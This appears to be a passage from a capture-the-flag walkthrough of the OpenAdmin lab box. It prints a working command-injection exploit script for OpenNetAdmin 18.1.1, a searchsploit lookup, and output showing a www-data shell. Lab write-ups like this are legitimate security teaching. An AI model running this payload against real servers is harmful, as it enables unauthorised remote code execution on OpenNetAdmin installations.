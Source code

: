 Navigating to music we check out everything on the website but we get a redirect to another site when we click on the `login` section on the site called `/ona`

This takes us to a site that we can see is running OpenNetAdmin which conveneiently has an exploit on exploit-db

We can see on the page that the version is `18.1.1` so we run `searchsploit` on this 
```bash
kali@kali:~$ searchsploit OpenNetAdmin 18.1.1
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                                          | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                           | php/webapps/47691.sh
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We will attempt to use the .sh file for the exploit, This is the exploit:
```bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

We run it with `./exploit.sh http://10.10.10.171/ona/login.php` and get a shell as www-data!
```bash
kali@kali:~/boxes/openadmin$ ./exploit.sh http://10.10.10.171/ona/login.php
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ cd local
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
```